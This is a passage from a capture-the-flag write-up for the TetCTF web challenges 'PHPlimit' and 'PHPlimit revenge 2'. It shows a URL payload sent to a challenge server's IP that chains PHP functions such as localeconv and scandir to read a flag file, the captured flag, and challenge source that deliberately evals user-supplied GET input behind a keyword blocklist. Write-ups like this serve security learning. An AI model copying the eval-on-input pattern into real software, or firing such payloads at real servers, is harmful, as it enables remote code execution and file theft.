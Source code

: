 {% code-tabs %}
{% code-tabs-item title="payload2" %}
```text
#view-source:http://139.180.219.222/?code=print(readfile(end(scandir(realpath(chr(ord(join(localeconv()))))))));
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="flag" %}
```text
<?php 

$fl0wer="TetCTF{_Limbo_Escaped!_Welcome_back_to_Real_Life_}";

?>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Web - PHPlimit revenge 2

{% code-tabs %}
{% code-tabs-item title="filter" %}
```php
<?php

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) 
{    
    if(preg_match('/_|m|info|get|strlen|rand|path/i',$_GET['code']))
    {
        die('<strong>va anh dech can gi nhieu ngoai em :(</strong><audio controls autoplay loop hidden><source src="assets/nhac.mp3" type="audio/mpeg"></audio>');
    }
    else
    {
        eval($_GET['code']);
    }
} 
else 
{
    show_source(__FILE__);
}

?>php
```
{% endcode-tabs-item %}
{% endcode-tabs %}

In this challenge, you couldnt use rand\(\) anymore, so to get ".", i use localeconv\(\)
